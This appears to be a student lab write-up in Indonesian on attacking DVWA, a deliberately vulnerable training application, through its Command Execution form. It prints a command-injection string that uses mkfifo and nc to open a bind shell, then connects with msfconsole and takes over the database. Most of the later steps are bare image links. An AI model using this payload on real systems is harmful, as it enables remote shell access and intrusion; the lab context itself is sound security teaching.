










# DVWA | Lesson 4
## Konfigurasi

Alamat target DVWA `http://10.151.34.170`

## Skenario

Login ke DVWA

Masuk ke menu Command Execution

Masukkan string berikut pada form
```
192.168.1.106; mkfifo /tmp/pipe; sh /tmp/pipe | nc -lp 4444 > /tmp/pipe
```

Berbeda dengan yang terdapat pada tutorial, pada VM exploitable ini perlu ditambahi perintah `-p` diikuti dengan `4444` pada `nc` agar port dapat terbuka.

Selanjutnya masuk ke Backtrack dan jalankan program msfconsole pada terminal
```
# msfconsole
```


Masukkan perintah seperti berikut, beserta IP dari target, yaitu `10.151.34.170`.



Setelah itu jalankan perintah `exploit` pada msfconsole.



Ternyata user yang menjalankan php yaitu `www-data`.



Proses apache2 dijalankan oleh user `www-data` dan direktori dvwa terdapat pada `/var/www/dvwa`.



User dari database adalah `root` dan passwordnya tidak ada alias string kosong.



Selanjutnya eksploitasi database dvwa.



Menambahkan user.



Eksplorasi table.



Membuat user dengan privileges baru.

## Hasil


